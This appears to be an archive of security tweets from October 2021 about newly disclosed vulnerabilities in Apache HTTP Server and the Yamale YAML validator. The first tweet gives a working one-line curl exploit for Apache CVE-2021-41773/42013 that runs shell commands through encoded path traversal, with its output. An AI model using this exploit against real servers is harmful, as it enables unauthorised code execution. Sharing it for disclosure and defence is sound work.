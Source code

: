 </tr></table>

---

# roman_soft
**https://twitter.com/roman_soft/status/1446252280597078024 _at 2021-10-07, 23:13:08_**
<blockquote>
RCE exploit both for Apache 2.4.49 (CVE-2021-41773) and 2.4.50 (CVE-2021-42013):
root@CT406:~# curl 'http://192.168.0.191/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; id'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
</blockquote>

<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>472</code></td>
<td>Favorites: <code>1086</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1446168197296627717 _at 2021-10-07, 17:39:01_**
<blockquote>
"It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives."
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1446080577514266625 _at 2021-10-07, 11:50:51_**
<blockquote>
A high-severity code injection #vulnerability (CVE-2021-38305) has been discovered in 23andMe's Yamale, a schema and validator for #YAML used by at least 224 repositories on #GitHub.

Read: https://t.co/2S7HhGN0CN

#infosec #cyberecurity #python
</blockquote>

* https://thehackernews.com/2021/10/code-execution-bug-affects-yamale.html
